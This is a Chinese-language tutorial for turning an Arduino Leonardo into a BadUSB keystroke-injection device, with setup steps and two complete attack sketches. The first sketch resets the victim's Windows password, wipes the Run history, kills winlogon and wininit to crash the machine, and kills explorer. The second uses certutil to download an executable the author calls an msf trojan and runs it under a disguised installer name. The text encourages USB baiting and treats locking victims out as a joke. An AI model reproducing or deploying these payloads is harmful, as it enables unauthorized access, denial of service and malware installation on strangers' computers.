










BadUSB制作教程
和大多数人一样，最初见到BadUSB是在美剧《黑客军团》中，是fsociety组织常用的工具之一，无论是向服务器下载木马控制被害者主机，还是达琳在停车场帅气的扔出大量USB钓鱼，BadUSB都是功不可没的物理武器之一。

剧情中使用Hak5的USB rubber ducky控制目标主机
达琳在停车场扔BadUSB钓鱼
BadUSB的优点
在USB攻击领域，很多年前常用的是老式USB病毒autorun.inf，现在估计随便一个杀毒软件就能把它杀得死死的，与autorun.inf不同，BadUSB是利用了USB协议上的漏洞，通过更改USB的内部固件，在正常的USB接口接入后，模拟外置鼠标、键盘的功能，以此来使目标主机执行已经精心构造好的命令。在此过程中不会引起杀毒软件、防火墙的一丝怀疑。而且因为是在固件级别的应用，U盘格式化根本无法阻止其内部代码的执行。
同样因为是对USB的利用，Windows、Linux、MAC等各类操作系统不必联网下载专用的驱动程序。此外，向BadUSB烧录的程序极为简单，大部分是对键盘按键进行模拟，上手较为容易。
BadUSB也是社会工程学的一个典型示例，它极大地利用了人们的好奇心，在路边捡到的USB，估计九成以上的人们都想看看里面有什么东西，而当你插入U盘，攻击就很难再停止下来了。
制作BadUSB的几种板子
能够制作BadUSB的几种常见载体有：leonardo_Arduino、Phison、Teensy、Attiny85、PS2303（芯片）、Rubber_Ducky等，这里笔者都有试过，从外观形状和制作成功率来看，使用leonardo_Arduino制作BadUSB的效果最好，使用起来也较为方便。

Rubber_Ducky

Attiny85

PS2303群联芯片

leonardo_Arduino
那么来做一个BadUSB怎么样？
这里选用外观形状最像USB的leonardo_Arduino为载体制作BadUSB，首先第一步就是要去下载Arduino开发者工具——用来向leonardo烧录程序的软件。这里贴一个Arduino中文社区的下载地址：https://www.arduino.cn/thread-5838-1-1.html，下载安装较为简单，这里不再赘述。安装后打开软件，你将看到如下所示的界面图：

Arduino开发者工具界面
然后打开工具-开发板-开发板管理器：

打开开发板管理器
联网安装Arduino AVR Boards板子：

Arduino AVR Boards开发板
回到主界面，开发板选择，选择工具-开发板- Arduino Leonardo。编程器选择，AVRISP mkII，如下图所示：

开发板及编程器选择
然后就是写入代码，如果你嫌自己写太麻烦，这里有个快速编写命令的工具：Automator，熟悉MAC的朋友可能认识，它主要是用来在MAC上发挥“按键精灵”的作用。
这里附上GitHub上的下载地址：https://github.com/Catboy96/Automator
其实代码写起来不难，关键看我们自己要实现什么效果，比如我就比较坏了，我打算先把对方开机密码先改了，然后在用各种颜色刷遍命令行，给对方一种美的享受，最后再开开心心的关掉对方桌面进程，当然能蓝屏的还是先蓝屏比较好。
写好代码后，点击左上角的那个对号进行编译，没有报错信息一般就是成功了：

代码：
#include<Keyboard.h>
void setup() {//初始化
Keyboard.begin();//开始键盘通讯
delay(5000);//延时
Keyboard.press(KEY_CAPS_LOCK); //按下大写键 这里我们最好这样写 不然大多数电脑在中文输入的情况下就会出现问题
Keyboard.release(KEY_CAPS_LOCK); //释放大写键
delay(200);
Keyboard.press(KEY_LEFT_GUI);//win键
delay(200);
Keyboard.press('r');//r键
delay(200);
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r');
Keyboard.println("cmd.exe");
delay(200);
Keyboard.println("CMD.EXE /C REG DELETE hkcu\\sOFTWARE\\mICROSOFT\\wINDOWS\\cURRENTvERSION\\eXPLORER\\rUNmru /F&NET USER %USERNAME% HACKED");//修改密码HACKED
delay(200);
Keyboard.println("color a");//更改命令行颜色（绿色）
delay(200);
Keyboard.println("echo ........................................................ >> hacked.txt");//向hacked.txt写内容
delay(200);
Keyboard.println("echo ## ## ### ###### ## ## ######## ######## >> hacked.txt");//向hacked.txt写内容
delay(200);
Keyboard.println("color 0");//更改命令行颜色（绿色）
delay(200);
Keyboard.println("echo ## ## ## ## ## ## ## ## ## ## ## >> hacked.txt");//向hacked.txt写内容
delay(200);
Keyboard.println("color 1");//更改命令行颜色（绿色）
delay(200);
Keyboard.println("echo ## ## ## ## ## ## ## ## ## ## >> hacked.txt");//向hacked.txt写内容
delay(200);
Keyboard.println("color 2");//更改命令行颜色（绿色）
delay(200);
Keyboard.println("echo ######### ## ## ## ##### ###### ## ## >> hacked.txt");//向hacked.txt写内容
delay(200);
Keyboard.println("color 3");//更改命令行颜色（绿色）
delay(200);
Keyboard.println("echo ## ## ######### ## ## ## ## ## ## >> hacked.txt");//向hacked.txt写内容
delay(200);
Keyboard.println("color 4");//更改命令行颜色（绿色）
delay(200);
Keyboard.println("echo ## ## ## ## ## ## ## ## ## ## ## >> hacked.txt");//向hacked.txt写内容
delay(200);
Keyboard.println("color 5");//更改命令行颜色（绿色）
delay(200);
Keyboard.println("echo ## ## ## ## ###### ## ## ######## ######## >> hacked.txt");//向hacked.txt写内容
delay(200);
Keyboard.println("color 6");//更改命令行颜色（绿色）
delay(200);
Keyboard.println("echo ........................................................ >> hacked.txt");//向hacked.txt写内容
delay(200);
Keyboard.println("color c");//更改命令行颜色（红色）
delay(200);
Keyboard.println("cls");//更改命令行颜色（红色）
delay(200);
Keyboard.println("type hacked.txt");//将hacked.txt文件内容打印在cmd
delay(200);
Keyboard.println("CMD /C START /MIN CMD /C REG DELETE hkcu\\sOFTWARE\\mICROSOFT\\wINDOWS\\cURRENTvERSION\\eXPLORER\\rUNmru /F&CMD /C START /MIN CMD /C NTSD -C Q -PN WINLOGON.EXE 1>NUL 2>NUL&TASKKILL /F /IM WININIT.EXE 2>NUL");//蓝屏XP、7
delay(200);
Keyboard.println("taskkill /f /im explorer.exe");//删除桌面进程(all)
delay(200);
Keyboard.end();//结束键盘通讯
}
void loop()//循环
{
}编译成功
最后插上你的leonardo，点击左上角第二个箭头符号进行上传，等待个50几秒就成功了。
PS：效果爆炸，程序将更改所有用户的密码，你别忘了新的开机密码哈，笑~~
链接服务器msf木马下载版代码：
#include<Keyboard.h>
void setup()
{
Keyboard.begin();//开始键盘通信
delay(4000);//延时1000毫秒，不要太短，因为每天电脑的运行速度都不一样
Keyboard.press(KEY_CAPS_LOCK); //按下大写键 这里我们最好这样写 不然大多数电脑在中文输入的情况下就会出现问题
Keyboard.release(KEY_CAPS_LOCK); //释放大写键
delay(500);
Keyboard.press(KEY_LEFT_GUI);//按下徽标键 也就是win键
delay(500);
Keyboard.press('r');//按下r键
delay(500);
Keyboard.println("cmd.exe");
delay(1000);
Keyboard.println("certutil -urlcache -split -f http://192.168.43.242/wwy.exe D:\\setup_11.5.0.exe");
delay(1000);
delay(1000);
Keyboard.println("D:\\SETUP_11.5.0.EXE");
delay(500);
Keyboard.println("exit");
delay(500);
Keyboard.press(KEY_CAPS_LOCK); //按下大写键
Keyboard.release(KEY_CAPS_LOCK); //释放大写键 我们再次关闭开启的大写键
delay(400);
Keyboard.end();//结束键盘通讯
}
void loop()
{
}
原创投稿：L M N